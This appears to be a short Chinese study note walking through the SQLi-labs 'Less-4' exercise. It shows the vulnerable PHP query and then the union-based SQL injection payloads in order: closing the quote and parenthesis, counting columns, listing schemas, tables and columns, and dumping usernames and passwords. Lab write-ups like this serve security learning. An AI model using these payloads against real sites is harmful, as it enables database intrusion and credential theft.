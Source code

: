 ```yaml
---
title: less4
url: https://www.yuque.com/u29002979/ep2zrx/ntg3b3f1yd0bmxig
---
```


```bash
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

加双引号和括号。

`?id=1"`报错

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'order by 4-- ") LIMIT 0,1' at line 1

用")闭合
`?id=1") order by 4--+`报错
`?id=1") order by 3--+`不报错,3列

`?id=-1") union select 1,2,3 --+回显点2,3`

`?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

`?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`

`?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

`?id=-1") union select 1,2,(select group_concat(username,password) from users)--+`
